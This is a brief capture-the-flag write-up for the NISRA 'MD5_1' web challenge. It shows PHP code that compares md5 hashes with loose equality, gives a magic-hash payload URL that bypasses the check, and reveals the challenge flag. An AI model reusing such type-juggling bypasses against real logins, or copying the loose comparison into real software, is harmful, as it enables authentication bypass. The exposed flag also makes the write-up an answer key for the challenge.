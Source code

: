 ```yaml
---
title: NISRA - MD5_1
tags: [NISRA, CTF, Web]

category: "Security/Practice/NISRA/Web"
---
```


# NISRA - MD5_1
###### tags: `NISRA` `CTF` `Web`
Challenge: [MD5_1](http://chall2.nisra.net:41022/)

## Source code
```php=
 <?php
    highlight_file(__FILE__);
    $FROM_INCLUDE = true;
    include("flag.php");
    $msg = "";
    if (isset($_GET['user']) && isset($_GET['password'])) {
        $user = $_GET['user'];
        $password = $_GET['password'];
        $check = "QNKCDZO";
        // the md5 of "QNKCDZO" is 0e830400451993494058024219903391

        if ($user == "admin" && $password != $check && md5($password) == md5($check)) {
            $msg = "Flag: ".$flag;
        } else {
            $msg = "Keep trying!";
        }
    }

    echo $msg;
?> 
```

## Exploit - MD5 Collision
Payload: `http://chall2.nisra.net:41022/?user=admin&password=240610708`
:::spoiler flag
`Flag: NISRA{PhP_is_th3_BeST_laNgUA9E}`
:::

## Reference
[md5('240610708') == md5('QNKCDZO')](https://news.ycombinator.com/item?id=9484757)